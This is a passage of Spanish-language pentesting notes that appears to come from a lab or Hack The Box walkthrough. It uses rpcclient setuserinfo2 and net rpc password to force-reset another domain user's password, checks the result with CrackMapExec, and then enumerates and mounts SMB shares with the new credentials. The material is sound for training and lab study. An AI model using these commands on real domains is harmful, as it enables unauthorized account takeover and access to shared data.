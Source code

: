 OTRAS OPCIONES:
```
rpcclient //10.10.10.50 -U "nombre_de_usuario%contraseña" -c 'setuserinfo2 audit2020 23 "Contraseña123"'
...
rpcclient -c 'setuserinfo2 audit2020 23 "Contraseña123"' 10.10.10.50
```
El número `23` en el comando `setuserinfo2` de `rpcclient` se refiere al nivel de información del usuario que deseas establecer (https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration) (https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration). En este caso, el nivel `23` se utiliza para cambiar la contraseña de un usuario (https://medium.com/@jackleed/hack-the-box-writeup-4-blackfield-832bb9b5cef4)


4. Otra manera:

```shell
$ net rpc password 'audit2020' -U 'john' -S 10.10.10.50
...

Enter new password fir audit2020:
Password for [WORKGROUP\john]:
...
```

Validamos con CrackMapExec:
```
...
[+] CONTOSO.local\audit2020:Contraseña123
...
```

5. Seguimos enumerando por SMB con los nuevos credenciales conseguidos:

```bash
$ smbmap -H 10.10.10.50 -u 'audit2020' -p 'Contraseña123'
...
```

6. Descubrimos nuevos accesos de solo lectura a nuevos recursos compartidos, los enumeramos uno a uno.

```bash
smbmap -H 10.10.10.50 -u 'audit2020' -p 'Contraseña123' -r documentos
...

smbmap -H 10.10.10.50 -u 'audit2020' -p 'Contraseña123' -r forense
...

etc...
```

---

- NOTA: Si no queremos ir abriendo carpeta por carpeta lo mejor es hace un punto de anclaje del recurso compartido hacia nuestro equipo, también lo llaman "montura":

```bash
$ mount -t cifs "//10.10.10.50/CarpetaCompartida" /mnt/
...

$ ls -l /mnt
...

$ cd mnt
$ tree
...
```
